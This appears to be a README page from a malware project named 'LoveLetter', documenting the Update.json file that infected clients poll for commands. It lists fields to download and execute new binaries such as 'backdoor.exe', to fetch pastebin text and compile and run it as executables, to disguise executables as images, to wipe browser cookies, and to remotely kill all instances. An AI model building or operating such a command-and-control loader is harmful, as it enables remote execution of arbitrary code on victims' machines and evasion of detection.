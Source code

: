 <div>
  <img width="220" align="right" src="../Repo/Images/2.gif" alt="LoveLetter"/>
  <br>
  <h1>⚙️ Configuration</h1>
  <p>Update.json is being fetched by the client to check for any server commands. You can update it to your liking.</p>
</div>

## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe",
      "item2": 0.1
    }
  ],
  "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7",
      "item2": 0.1
    }
  ]
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.

> - Runnables ```runnables```

Contains direct links and versions of executables to be downloaded and executed. Whenever an executable is updated please increment ```item2``` (it's named that way due to how Tuples behave in C#). Ex.

```json
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe", // direct link to download
      "item2": 2.0 //version
    },
    {
      "item1": "http://0.0.0.0/evil_program.png", // extensions dont matter, it will be ran as executables anyways
      "item2": 0.1
    }
```

> - Snippets ```snippets```

Direct links to any text files that will be compiled as executables and ran. Ex.

```json
 "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7", // the text inside this bin will be compiled
      "item2": 0.1
    },
    
    {
      "item1": "https://your-link-to-source-code.com/not-evil.txt",
      "item2": 0.1
    }
```

Goodluck 💖